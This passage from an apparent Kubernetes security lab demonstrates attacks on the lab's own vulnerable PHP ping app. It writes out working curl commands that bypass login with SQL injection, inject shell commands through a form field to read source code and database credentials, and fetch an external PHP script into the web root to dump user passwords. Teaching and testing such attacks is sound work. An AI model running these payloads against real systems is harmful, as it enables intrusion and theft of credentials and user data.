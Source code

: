 Unfortunately, it turns out our web application is faulty and susceptible to [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) attacks:
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost" -X POST http://ping/ping.php`{{execute}}

An attacker can not only bypass the authentication mechanism, but even execute arbitrary commands:
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ps aux" -X POST http://ping/ping.php`{{execute}}

Through a series of commands, the attacker could easily get the source code for our ping app, which contains the database credentials:

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ls /var/www/" -X POST http://ping/ping.php`{{execute}}

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ls /var/www/html" -X POST http://ping/ping.php`{{execute}}

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; cat /var/www/html/ping.php" -X POST http://ping/ping.php`{{execute}}

Once he knows the login details for the database, he could get a dump of its contents, including the table with all our users and their passwords:
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; curl https://gist.githubusercontent.com/bencer/9e32fb1af89754b4ad8346b13dcd1110/raw/cd79134f420b59e84e6b60be3bdff7ca0bb42f1e/gistfile1.txt > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute}}

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; sed -i -e 's/db/mysql/' /var/www/html/dump.php" -X POST http://ping/ping.php`{{execute}}

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute}}
